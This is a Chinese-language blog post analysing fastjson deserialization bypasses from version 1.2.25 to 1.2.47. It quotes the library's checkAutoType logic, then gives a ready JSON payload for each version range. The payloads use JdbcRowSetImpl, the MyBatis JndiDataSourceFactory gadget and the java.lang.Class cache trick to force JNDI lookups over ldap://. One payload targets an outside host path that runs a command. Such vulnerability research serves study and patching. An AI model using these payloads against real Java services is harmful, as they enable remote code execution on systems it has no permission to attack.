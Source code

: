 ```yaml
---
layout: post
date: 2025-5-8
title: "fastjson各版本绕过分析(未完)"
author: "XinYiSleep"
category: Java
---
```

<h1 id="YdP3x">1.基本信息</h1>

```
之前我们讲了1.2.24的利用，但是在1.2.25版本开始引入了一个修复这个修复大体一直延续到最新版，
autoTypeSupport这个属性默认是false,会进行黑名单和白名单的检测，说到这里有点懵不要紧，我们先对比一下1.2.24和1.2.25的修复区别是什么(图一，图二)。
```

![](https://xinyisleep.github.io/img/2025/fastjson/fastjson1.2.25/1.jpg)

![](https://xinyisleep.github.io/img/2025/fastjson/fastjson1.2.25/2.jpg)

```
1.2.24中是直接loadClass了，但是在1.25中以及之后执行了checkAutoType(代码一)，
其实这段代码很恶心哈，因为没有else很难知道他像到底干什么(可能人家就是不想让你读懂)。
```
```java
public Class<?> checkAutoType(String typeName, Class<?> expectClass) {
    if (typeName == null) {
        return null;
    } else {
        String className = typeName.replace('$', '.');
        if (this.autoTypeSupport || expectClass != null) {
            int i;
            String deny;
            for(i = 0; i < this.acceptList.length; ++i) {
                deny = this.acceptList[i];
                if (className.startsWith(deny)) {
                    return TypeUtils.loadClass(typeName, this.defaultClassLoader);
                }
            }

            for(i = 0; i < this.denyList.length; ++i) {
                deny = this.denyList[i];
                if (className.startsWith(deny)) {
                    throw new JSONException("autoType is not support. " + typeName);
                }
            }
        }

        Class<?> clazz = TypeUtils.getClassFromMapping(typeName);
        if (clazz == null) {
            clazz = this.deserializers.findClass(typeName);
        }

        if (clazz != null) {
            if (expectClass != null && !expectClass.isAssignableFrom(clazz)) {
                throw new JSONException("type not match. " + typeName + " -> " + expectClass.getName());
            } else {
                return clazz;
            }
        } else {
            //黑名单匹配到直接报错了
            if (!this.autoTypeSupport) {
                String accept;
                int i;
                for(i = 0; i < this.denyList.length; ++i) {
                    accept = this.denyList[i];
                    if (className.startsWith(accept)) {
                        throw new JSONException("autoType is not support. " + typeName);
                    }
                }
                //白名单
                for(i = 0; i < this.acceptList.length; ++i) {
                    accept = this.acceptList[i];
                    if (className.startsWith(accept)) {
                        clazz = TypeUtils.loadClass(typeName, this.defaultClassLoader);
                        if (expectClass != null && expectClass.isAssignableFrom(clazz)) {
                            throw new JSONException("type not match. " + typeName + " -> " + expectClass.getName());
                        }

                        return clazz;
                    }
                }
            }

            if (this.autoTypeSupport || expectClass != null) {
                clazz = TypeUtils.loadClass(typeName, this.defaultClassLoader);
            }

            if (clazz != null) {
                if (ClassLoader.class.isAssignableFrom(clazz) || DataSource.class.isAssignableFrom(clazz)) {
                    throw new JSONException("autoType is not support. " + typeName);
                }

                if (expectClass != null) {
                    if (expectClass.isAssignableFrom(clazz)) {
                        return clazz;
                    }

                    throw new JSONException("type not match. " + typeName + " -> " + expectClass.getName());
                }
            }

            if (!this.autoTypeSupport) {
                throw new JSONException("autoType is not support. " + typeName);
            } else {
                return clazz;
            }
        }
    }
}
```
<h1 id="XiOxB">2.各个版本绕过分析</h1>

<h3 id="MyfCH">2.1：需要开启autoTypeSupport</h3>
<h4 id="ymQNL">1.2.25 -1.2.41绕过</h4>
```
上面知道了默认是false,但是如果是true的话是可以执行到loadClass,这里我们设置为true，如果设置这个属性呢？
ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
静态代码块进行了实例，那么直接执行setAutoTypeSupport方法就可了。
```

![](https://xinyisleep.github.io/img/2025/fastjson/fastjson1.2.25/3.jpg)

![](https://xinyisleep.github.io/img/2025/fastjson/fastjson1.2.25/3.5.jpg)

![](https://xinyisleep.github.io/img/2025/fastjson/fastjson1.2.25/4.jpg)

![](https://xinyisleep.github.io/img/2025/fastjson/fastjson1.2.25/5.jpg)

```java

好那我们就直接用1.2.24的payload
ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
String A="{\"@type\":\"java.lang.NoSuchMethodExceptionl\",\"dataSourceName\":\"ldap://127.0.0.1:1234/ExportObject\",\"autoCommit\":\"false\" }";
JSON.parseObject(A);
```

![](https://xinyisleep.github.io/img/2025/fastjson/fastjson1.2.25/6.jpg)

```
咦，怎么报错了，这里其实有认真看上面代码一的话应该知道其实是有很名单的(图一，图二)，
那么应该怎么办呢？我们看图三我们知道上面设置autoTypeSupport这个属性true,所以可以直接进入，并且可以看到判断
前面是L后面是;就会截取中间的内容重新执行并且返回，就可以绕过了(代码一)。
```
![](https://xinyisleep.github.io/img/2025/fastjson/fastjson1.2.25/7.jpg)

![](https://xinyisleep.github.io/img/2025/fastjson/fastjson1.2.25/8.jpg)

![](https://xinyisleep.github.io/img/2025/fastjson/fastjson1.2.25/9.jpg)

```java

ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
String A="{\"@type\":\"Lcom.sun.rowset.JdbcRowSetImpl;\",\"dataSourceName\":\"ldap://127.0.0.1:1234/ExportObject\",\"autoCommit\":\"false\" }";
JSON.parseObject(A);
```
<h4 id="V8ERG">1.2.25-1.2.42绕过</h4>
```
在1.2.42开始黑名单采用hash进行比较(图一)，为什么这样呢？原因很简单就是不想让你读懂，不过没关系在github中已经有大佬爆破出来很多了项目地址 [https://github.com/LeadroyaL/fastjson-blacklist](https://github.com/LeadroyaL/fastjson-blacklist)
,为了方式匹配我们把之前payload L ; 再写一遍就行了反正他会循环执行直到你前面会面没有 L ；为止(图二)，之后进入contextClassLoader.loadClass动态加载然后returm,最终payload(代码一)。
```

![](https://xinyisleep.github.io/img/2025/fastjson/fastjson1.2.25/10.jpg)

![](https://xinyisleep.github.io/img/2025/fastjson/fastjson1.2.25/11.jpg)

```java

ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
String A="{\"@type\":\"LLcom.sun.rowset.JdbcRowSetImpl;;\",\"dataSourceName\":\"ldap://127.0.0.1:1234/ExportObject\",\"autoCommit\":\"false\" }";
JSON.parseObject(A);
```
<h4 id="Cl9vb">1.2.25-1.2.43绕过</h4>
```
说起这个绕过，其实在上面进行分析的时候我截图中是有43这个版本绕过的代码的，其实很简单，之前我们1是前面L 后面；绕过，
但是上面还有一个分支(图一)，但是会出现一个问题会报错(图二)，但是这个报错其实是底层的报错主要就是告诉你格式有问题根据报错修改一下就ok了，
最终payload代码一
```

![](https://xinyisleep.github.io/img/2025/fastjson/fastjson1.2.25/12.jpg)

![](https://xinyisleep.github.io/img/2025/fastjson/fastjson1.2.25/13.jpg)

```java

ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
//逗号前面多了[{
String A="{\"@type\":\"[com.sun.rowset.JdbcRowSetImpl\"[{,\"dataSourceName\":\"ldap://127.0.0.1:1234/ExportObject\",\"autoCommit\":\"false\" }";
JSON.parseObject(J);
```

<h4 id="z8AMQ">1.2.25-1.2.45绕过</h4>
```
org.apache.ibatis.datasource.jndi.JndiDataSourceFactory
这个类是Mybatis里面的所以先要maven
**version：3.x.x系列<3.5.0的版本**
<dependency>
    <groupId>org.mybatis</groupId>
    <artifactId>mybatis</artifactId>
    <version>3.4.6</version>
</dependency>
```

```
这里就很有意思了，我们之前的打法是从代码中绕过，而45中不需要绕过，或者说不算绕过因为在45中黑名单是没有org.apache.ibatis.datasource.jndi.JndiDataSourceFactory，在46中加上了他，所以我们知道这个类是有问题的，再说一句废话我们知道会执行Setter所以找Setter,在setProperties中我们找到了感兴趣的点（图一），这不就是JNDI注入吗？没错是的，只需要键是data_source就能执行到最下面的lookup,首先得确实
Properties是不是一个泛型，当然他肯定是的(图二)，并且是Object,那就爽歪歪了，所以最终payload代码一，这里可以简单思考一下是不是在图一中我们可以走到第一个lookup呢？答案是当然可以代码二。
```

![](https://xinyisleep.github.io/img/2025/fastjson/fastjson1.2.25/14.jpg)

![](https://xinyisleep.github.io/img/2025/fastjson/fastjson1.2.25/15.jpg)

```java

String payload ="{\"@type\":\"org.apache.ibatis.datasource.jndi.JndiDataSourceFactory\"
,\"properties\":{\"data_source\":\"ldap://localhost:1234/Exploit\"}}";
JSON.parseObject(payload);
```
```java
String payload ="{\"@type\":\"org.apache.ibatis.datasource.jndi.JndiDataSourceFactory\",
\"properties\":{\"data_source\":\"11111111111111111\",\"initial_context\":\"ldap://134.122.16.0:1389/TomcatBypass/Command/dir\"}}";
JSON.parseObject(payload);
```
<h4 id="QJM6t"></h4>
<h3 id="pn5nv">2.2：无需开启autoTypeSupport</h3>
<h4 id="Qd1NN">1.2.25-1.2.47绕过</h4>
```
这个就有点难理解了，建议自己跟着走一遍。
1.2.25-1.2.32版本：未开启AutoTypeSupport时能成功利用，开启AutoTypeSupport反而不能成功触发；
1.2.33-1.2.47版本：无论是否开启AutoTypeSupport，都能成功利用；
```

```java

String payload  = "{\"a\":{\"@type\":\"java.lang.Class\",\"val\":\"com.sun.rowset.JdbcRowSetImpl\"},"
        + "\"b\":{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\","
        + "\"dataSourceName\":\"ldap://localhost:1389/Exploit\",\"autoCommit\":true}}";
JSON.parseObject(payload);
```

